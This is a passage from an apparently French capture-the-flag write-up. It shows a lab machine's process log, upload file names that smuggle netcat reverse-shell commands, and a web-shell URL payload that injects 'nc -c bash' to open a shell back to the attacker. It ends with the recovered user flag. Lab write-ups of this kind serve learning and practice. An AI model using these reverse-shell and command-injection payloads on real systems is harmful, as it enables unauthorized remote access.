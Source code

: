 ~~~
2019/10/13 12:54:02 [35;1mCMD: UID=1000 PID=4563   | sh -c nohup /bin/rm -f /var/www/html/uploads/;nohup nc -c 10.10.14.239 4546 -e bash & > /dev/null 2>&1 & [0m
2019/10/13 12:54:02 [35;1mCMD: UID=1000 PID=4566   | sh -c nohup /bin/rm -f /var/www/html/uploads/;nohup nc -c 10.10.14.239 4546 -e bash & > /dev/null 2>&1 & [0m
2019/10/13 12:54:02 [35;1mCMD: UID=1000 PID=4565   | sh -c nohup /bin/rm -f /var/www/html/uploads/;nohup nc -c 10.10.14.239 4546 -e bash & > /dev/null 2>&1 & [0m
2019/10/13 12:54:02 [35;1mCMD: UID=1000 PID=4567   | /usr/sbin/sendmail -t -i -F;nohup nc -c 10.10.14.239 4546 -e bash & [0m
2019/10/13 12:54:02 [34;1mCMD: UID=0    PID=4568   | sendmail: x9DAs2ek004568 localhost [127.0.0.1]: DATA[0m
(...)
~~~

Regardons ce qu'il y a dans /var/www/html/uploads:

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=ls%20-la%20/var/www/html/uploads

~~~
(...)
-rw-r--r--. 1 root   root    3915 Oct 30  2018 127_0_0_4.png
-rw-r--r--  1 apache apache     0 Oct 13 14:05 ; chgrp root '; nc -c bash 10.10.15.240 8889'
-rw-r--r--  1 apache apache     0 Oct 13 13:59 ; chgrp root '; nc 10.10.15.240 8889'
-rw-r--r--  1 apache apache     0 Oct 13 12:48 ; nc --sh-exec 10.10.14.215 444
-rw-r--r--  1 apache apache     0 Oct 13 13:06 ; nc -c bash 10.10.14.10 4040;
-rw-r--r--  1 apache apache     0 Oct 13 12:43 ; nc -c bash 10.10.14.215 444
-rw-rw-rw-  1 apache apache     0 Oct 13 12:41 ; nc -c bash 10.10.15.122 4445
-rw-r--r--  1 apache apache     0 Oct 13 15:51 ; nc -c bash 10.10.15.240 8889
-rw-r--r--  1 apache apache     0 Oct 13 12:41 ; nc -nv 10.10.14.215 443 -e bash
-rw-r--r--  1 apache apache     0 Oct 13 13:06 ; nc -nv 10.10.14.215 444 |
-rw-r--r--  1 apache apache     0 Oct 13 12:40 ; nc -nv localhost 443 -e bash
-rw-r--r--  1 apache apache     0 Oct 13 13:58 ; nc 10.10.15.240 8889
-rw-r--r--  1 apache apache     0 Oct 13 12:53 ; touch michel
-rw-r--r--  1 apache apache     0 Oct 13 12:52 ;nohup nc -c 10.10.14.239 4546 -e bash &
-r--r--r--. 1 root   root       2 Oct 30  2018 index.html
-rw-r--r--  1 apache apache     0 Oct 13 12:40 nc -nv localhost 443 -e bash
-rw-r--r--  1 apache apache     0 Oct 13 15:00 touch temp
(...)
~~~

On essaye de créer une session netcat:

1 - Écouter sur le port 2345:

~~~
root@Host-001:~# nc -nvlp 2345
listening on [any] 2345 ...
~~~

2 - Payload

http://10.10.10.146/uploads/<MON IP>.php.png?cmd=touch%20/var/www/html/uploads/%27;%20nc%20-nv%20<MON IP>%202345%20-c%20bash%27

Attendre un peu. Résultat:

~~~
root@Host-001:~# nc -nvlp 2345
listening on [any] 2345 ...
connect to [10.10.15.64] from (UNKNOWN) [10.10.10.146] 51876
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
ls
check_attack.php
crontab.guly
user.txt
cat user.txt
526cfc2305f17faaacecf212c57d71c5
~~~
